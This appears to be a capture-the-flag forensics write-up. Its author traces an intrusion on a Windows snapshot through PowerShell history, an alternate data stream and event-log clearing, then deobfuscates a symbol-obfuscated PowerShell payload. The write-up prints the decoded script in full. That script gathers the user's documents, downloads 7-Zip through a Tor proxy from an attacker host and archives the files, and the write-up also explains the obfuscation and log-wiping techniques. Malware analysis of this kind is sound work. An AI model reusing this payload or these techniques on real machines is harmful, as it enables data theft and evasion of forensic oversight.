





# WRITE_UP #

## ARTIFACT OF DANGEROUS SIGHTING ##

### 1. Analysis ###
* **Given:** a file named `2023-03-09T132449_PANDORA.vhdk`
* **Description:** Pandora has been using her computer to uncover the secrets of the elusive relic. She has been relentlessly scouring through all the reports of its sightings. However, upon returning from a quick coffee break, her heart races as she notices the Windows Event Viewer tab open on the Security log. This is so strange! Immediately taking control of the situation she pulls out the network cable, takes a snapshot of her machine and shuts it down. She is determined to uncover who could be trying to sabotage her research, and the only way to do that is by diving deep down and following all traces ...
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### POOR PANDORA ####
So we were given a snapshot of Pandora's machine, let's use `FTK Imager` to investigate it.

Open the snapshot in FTK, first, I search for the `ConsoleHost_history.txt`, this file often lies in `C:\Users\<USER_NAME>\AppData\Roaming\Windows\PowerShell\PSReadLine`, and often writes all PSLine the host typed, so if the attacker ran some suspicious commands we should easily detect it.



We can clearly see that the first line looks very sus. Attacker typed `finalpayload` to the `Alternate data stream` named `hidden.ps1` of the file `C:\Windows\Tasks\ActiveSyncProvider.dll`, then called `wevtutil.exe` to remove some `Event Log`.

#### DYNAMIC ANALYSIS ####
Now let's hunt for that `hidden.ps1`. Traces through the path given, I was able to find it:



We can observe a `.ps1` script being executed with `-WindowStyle Hidden` and `-ExecutionPolicy Bypass` flags, alongside several Base64 strings.

Decode b64 strings given me a highly obfuscated file:



That is too much for me to deobfuscate, so I tried to dynamically analyze it. 

So at the end of the code, I noticed something called `Execution Sink`. Basically, if you only type a code without execute it, it obviously wont do anything, `Execution Sink` is where attacker turn lines of code into executable one. For example, with a malware PowerShell file `.ps1`, the `Sink` is where attacker called `iex` to execute the payload.

Same idea with this challenge, when I saw the obfuscated code, and some point looks like an `Execution Sink` with pipeline and stuffs, I replaced that part with a command to save the output to another file and try `Dynamic Analysis` on a machine to safely reveal the payload. (**Note**: This is extremely dangerous in real life so I do not recommend this, but to solve the chal quickly, yeah). 



After modifying the file, I dropped it to my virtual machine to run:



As you can see, that's look like an another payload wrapping by `[Char]` which converts integer arrays back into ASCII characters, I copied that string and wrote a small python script to decode the strings executed:

```python
with open('payload.txt', 'r') as file:
    input_str = file.read()
output_str = ''
for char in input_str.split(' + '):
    char = char.strip('[Char]')
    output_str += chr(int(char))

print(output_str)
```

```bash
PS D:\sv_it\htb\Easy\Easy> python -u "d:\sv_it\htb\Easy\Easy\Artifact Of Dangerous Sighting\Tasks\solve.py"
### .     .       .  .   . .   .   . .    +  .
###   .     .  :     .    .. :. .___---------___.
###        .  .   .    .  :.:. _".^ .^ ^.  '.. :"-_. .
###     .  :       .  .  .:../:            . .^  :.:\.
###         .   . :: +. :.:/: .   .    .        . . .:\
###  .  :    .     . _ :::/:                         .:\
###   .. . .   . - : :.:./.                           .:\
###  .   .     : . : .:.|. ######               #######::|
###   :.. .  :-  : .:  ::|.#######             ########:|
###  .  .  .  ..  .  .. :\ ########           ######## :/
###   .        .+ :: : -.:\ ########         ########.:/
###     .  .+   . . . . :.:\. #######       #######..:/
###       :: . . . . ::.:..:.\                   ..:/
###    .   .   .  .. :  -::::.\.       | |       .:/
###       .  :  .  .  .-:.":.::.\               .:/
###  .      -.   . . . .: .:::.:.\            .:/
### .   .   .  :      : ....::_:..:\   ___   :/
###    .   .  .   .:. .. .  .: :.:.:\       :/
###      +   .   .   : . ::. :.:. .:.|\  .:/|
### SCRIPT TO DELAY HUMAN RESEARCH ON RELIC RECLAMATION
### STAY QUIET - HACK THE HUMANS - STEAL THEIR SECRETS - FIND THE RELIC
### GO ALLIENS ALLIANCE !!!
function makePass
{
    $alph=@();
    65..90|foreach-object{$alph+=[char]$_};
    $num=@();
    48..57|foreach-object{$num+=[char]$_};

    $res = $num + $alph | Sort-Object {Get-Random};
    $res = $res -join '';
    return $res;
}

function makeFileList
{
    $files = cmd /c where /r $env:USERPROFILE *.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php;
    $List = $files -split '\r';
    return $List;
}

function compress($Pass)
{
    $tmp = $env:TEMP;
    $s = 'https://relic-reclamation-anonymous.alien:1337/prog/';
    $link_7zdll = $s + '7z.dll';
    $link_7zexe = $s + '7z.exe';

    $7zdll = '"'+$tmp+'\7z.dll"';
    $7zexe = '"'+$tmp+'\7z.exe"';
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zdll -o $7zdll;
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zexe -o $7zexe;

    $argExtensions = '*.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php';

    $argOut = 'Desktop\AllYourRelikResearchHahaha_{0}.zip' -f (Get-Random -Minimum 100000 -Maximum 200000).ToString();    
    $argPass = '-p' + $Pass;

    Start-Process -WindowStyle Hidden -Wait -FilePath $tmp'\7z.exe' -ArgumentList 'a', $argOut, '-r', $argExtensions, $argPass -ErrorAction Stop;
}

$Pass = makePass;
$fileList = @(makeFileList);
$fileResult = makeFileListTable $fileList;
compress $Pass;
$TopSecretCodeToDisableScript = "HTB{Y0U_C4nt_St0p_Th3_Alli4nc3}"
```


#### STATIC ANALYSIS ####
After solving this chal I did some research to actually understand what `hidden.ps1` really do, so here you are: 
```ps1
${[~@} = $(); ${!!@!!]} = ++${[~@}; ${[[!} = --${[~@} + ${!!@!!]} + ${!!@!!]}; ${~~~]} = ${[[!} + ${!!@!!]}; ${[!![!} = ${[[!} + ${[[!}; ${(~(!} = ${~~~]} + ${[[!}; ${!~!))} = ${[!![!} + ${[[!}; ${((!} = ${!!@!!]} + ${[!![!} + ${[[!}; ${=!!@!!}  = ${~~~]} - ${!!@!!]} + ${!~!))}; ${!=} =  ${((!} - ${~~~]} + ${!~!))} - ${!!@!!]}; ${=@!~!} = "".("$(@{})"[14]+"$(@{})"[16]+"$(@{})"[21]+"$(@{})"[27]+"$?"[1]+"$(@{})"[3]); ${=@!~!} = "$(@{})"[14]+"$?"[3]+"${=@!~!}"[27]; ${@!=} = "["+"$(@{})"[7]+"$(@{})"[22]+"$(@{})"[20]+"$?"[1]+"]";
....
# Alot more but these lines contain a big secret so lets deobfuscate it first.
```
Beautify this a bit:
```ps1
${[~@} = $(); 
${!!@!!]} = ++${[~@}; 
${[[!} = --${[~@} + ${!!@!!]} + ${!!@!!]}; 
${~~~]} = ${[[!} + ${!!@!!]}; 
${[!![!} = ${[[!} + ${[[!}; 
${(~(!} = ${~~~]} + ${[[!}; 
${!~!))} = ${[!![!} + ${[[!}; 
${((!} = ${!!@!!]} + ${[!![!} + ${[[!}; 
${=!!@!!}  = ${~~~]} - ${!!@!!]} + ${!~!))}; 
${!=} =  ${((!} - ${~~~]} + ${!~!))} - ${!!@!!]}; 


${=@!~!} = "".("$(@{})"[14]+"$(@{})"[16]+"$(@{})"[21]+"$(@{})"[27]+"$?"[1]+"$(@{})"[3]); 
${=@!~!} = "$(@{})"[14]+"$?"[3]+"${=@!~!}"[27]; 
${@!=} = "["+"$(@{})"[7]+"$(@{})"[22]+"$(@{})"[20]+"$?"[1]+"]";
```
First, it assigns `null` to `{[~@}`, then use math operators to assign value to the next 9 variables.

However, three next lines are the real danger: `"$(@{})"[14]`. To understand this, we need to break it down into 3 steps:
1. After some researches, in PowerShell, `$(@{})` will create an empty `Hashtable`.
2. Then the attacker convert to string types with `" "` which is `.ToString()` method in `.NET`. By default, when an empty object created, `.NET` will return the fully qualified name of the type of the object. Here is an `Hashtable` which is an object of class `.NET` so when `.ToString()` called it will return its name `System.Collections.Hashtable`. So all the `"$(@{})"` combined together to return the string: `System.Collections.Hashtable`. 
3. Then attacker picks the character whose index is 14 in that string: `i`.

Then we got this one left `"$?"[1]`:
1. The `$?` returns the boolean state of the previous command. If it's a succesful one, it returns True.
2. Wrapping it in `" "`, PowerShell performs string interpolation like I explained above.
3. Picking the index 1 in the string which is `r`

You can read more about how PowerShell and .NET convert it here:

[About Quoting Rules](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_quoting_rules?view=powershell-7.6)

[About Hash Tables](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_hash_tables?view=powershell-7.6)

[Object.ToString Method](https://learn.microsoft.com/en-us/dotnet/api/system.object.tostring?view=net-10.0)

Now we are able to deobfuscate the first line:
```ps1
${=@!~!} = "".insert
```
However, we can notice there is no `()` to invoke the function insert here. In this case, actually, PowerShell will assign the `Method Definition` of `insert` function to `${=@!~!}`. This makes `${=@!~!}` to become an `Object` type `PSMethod`

[About Methods](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_methods?view=powershell-7.6)

Moving into the second commands: `${=@!~!} = "$(@{})"[14]+"$?"[3]+"${=@!~!}"[27];`
Like the first one, we can easily get the first two letter: `ie`. At this point it was kinda clear for me that the attacker ran `iex`, however let's try to understand throughly the command. So the hard one is `"${=@!~!}"[27]`. Like I said before, our variable `${=@!~!}` now is a `Method`. In PowerShell, when convert a `Method` to string, it will return `Signature` of that method. So the signature of `.Insert()` of a string is defined: 
```bash
string Insert(int startIndex, string value)
```
After counting, the index 27 is `x`. Yea so we got the string `iex` - `Invoke-Expression` here.

The third line `${@!=} = "["+"$(@{})"[7]+"$(@{})"[22]+"$(@{})"[20]+"$?"[1]+"]";` basically is
```powershell
${@!=} = [Char]
```

We have the recipe, let's deobfuscate all the scripts. Using notepad, we can use `Ctrl+F` to replace to obfuscated strings to readable, after a few times, I got this:
```powershell
${[~@} = 0;                                          
${!!@!!]} = ++0;                                     
${[[!} = --0 + 1 + 1;                
${~~~]} = 2 + 1;                             
${[!![!} = 2 + 2;                                
${(~(!} = 3 + 2;                               
${!~!))} = 4 + 2;                             
${((!} = 1 + 4 + 2;                  
${=!!@!!}  = 3 - 1 + 6;             
${!=} =  7 - 3 + 6 - 1;         

${=@!~!} = "".insert
${=@!~!} = iex
${@!=} = [Char]

"[Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + ... + [Char]10 | iex" |&iex
```

You can clearly see the two pipelines serve as the `Sink` we mentioned before.Then using the same script to decode and you will get the same flag.

## 3. Solution ##
1. **Result:** The flag is `HTB{Y0U_C4nt_St0p_Th3_Alli4nc3}`


